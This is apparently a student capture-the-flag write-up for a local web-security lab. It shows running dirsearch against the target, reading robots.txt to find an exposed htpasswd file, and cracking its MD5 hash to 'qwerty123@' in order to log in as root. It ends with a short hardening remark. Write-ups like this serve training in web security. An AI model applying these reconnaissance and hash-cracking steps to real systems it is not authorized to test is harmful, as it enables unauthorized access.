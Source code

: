 # Admin Page

__http://192.168.56.101/admin/__

## Description
This is a admin page. We need to input username and password.  

## Form Inputs
We used for brute forsing git clone https://github.com/maurosoria/dirsearch.git
then comand to catch folders ```python3 dirsearch.py -u http://192.168.56.101```
```
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11715

Output: /mnt/nfs/homes/lnoisome/Desktop/darkly/02_page_admin/resources/dirsearch/reports/http_192.168.56.101/_23-10-07_21-53-35.txt

Target: http://192.168.56.101/

[21:53:35] Starting: 
[21:53:36] 301 -  193B  - /js  ->  http://192.168.56.101/js/
[21:54:15] 301 -  193B  - /admin  ->  http://192.168.56.101/admin/
[21:54:17] 200 -    1KB - /admin/
[21:54:18] 200 -    1KB - /admin/index.php
[21:54:46] 301 -  193B  - /audio  ->  http://192.168.56.101/audio/
[21:55:07] 301 -  193B  - /css  ->  http://192.168.56.101/css/
[21:55:18] 301 -  193B  - /errors  ->  http://192.168.56.101/errors/
[21:55:19] 200 -  967B  - /errors/
[21:55:22] 200 -    1KB - /favicon.ico
[21:55:24] 301 -  193B  - /fonts  ->  http://192.168.56.101/fonts/
[21:55:33] 301 -  193B  - /images  ->  http://192.168.56.101/images/
[21:55:33] 200 -  967B  - /images/
[21:55:34] 200 -  967B  - /includes/
[21:55:34] 301 -  193B  - /includes  ->  http://192.168.56.101/includes/
[21:55:40] 200 -  967B  - /js/
[21:56:22] 200 -   53B  - /robots.txt

Task Completed
```
For the input data to the form we go to the [robots.txt](#http://192.168.56.101/robots.txt) and we've got a path to the [/whatever](#http://192.168.56.101/whatever/) where I've got htpasswd.

## Flag
In the htpaswd I've got root:437394baff5aa33daa618be47b75cb49. Which means username: root and password qwerty123@ from [MD5](#https://md5.gromweb.com/?md5=437394baff5aa33daa618be47b75cb49). After inputing to the admin form We've got the next flag.

## Safety
Do not storage inside the service meta in easy hashing at the same time.
